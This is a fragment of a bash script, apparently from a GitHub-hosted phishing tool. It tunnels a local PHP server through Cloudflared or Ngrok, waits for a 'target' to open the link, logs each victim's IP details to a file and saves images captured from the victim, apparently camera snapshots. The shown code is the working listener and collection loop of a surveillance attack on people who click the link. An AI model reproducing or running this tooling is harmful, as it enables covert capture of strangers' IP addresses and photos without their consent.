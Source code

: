     else
        echo -e "${success}Ngrok choosen!\n"
        replacer "$ngroklink"
    fi
    break
fi
if ( $cfcheck &&  ! $ngrokcheck ); then
    echo -e "${success}Cloudflared started succesfully!\n"
    replacer "$cflink"
    break
fi
if ( ! $cfcheck && $ngrokcheck ); then
    echo -e "${success}Ngrok started succesfully!\n"
    replacer "$ngroklink"
    break
fi
if ! ( $cfcheck && $ngrokcheck ); then
    echo -e "${error}Tunneling failed!\n"
    killer; exit 1
fi
done
sleep 1
status=$(curl -s --head -w %{http_code} 127.0.0.1:7777 -o /dev/null)
if echo "$status" | grep -q "404"; then
    echo -e "${error}PHP couldn't start!\n\007"
    killer; exit 1
else
    echo -e "${success}PHP started succesfully!\n"
fi
sleep 1
rm -rf ip.txt
echo -e "${info}Waiting for target. ${cyan}Press ${red}Ctrl + C ${cyan}to exit...\n"
while true; do
    if [[ -e "ip.txt" ]]; then
        echo -e "\007${success}Target opened the link!\n"
        while IFS= read -r line; do
            echo -e "${green}[${blue}*${green}]${yellow} $line"
        done < ip.txt
        echo ""
        cat ip.txt >> $cwd/ips.txt
        rm -rf ip.txt
    fi
    sleep 0.5
    if [[ -e "log.txt" ]]; then
        echo -e "\007${success}Image downloaded! Check directory!\n"
        file=`ls | grep png`
        mv -f $file $FOL
        rm -rf log.txt
    fi
    sleep 0.5
done
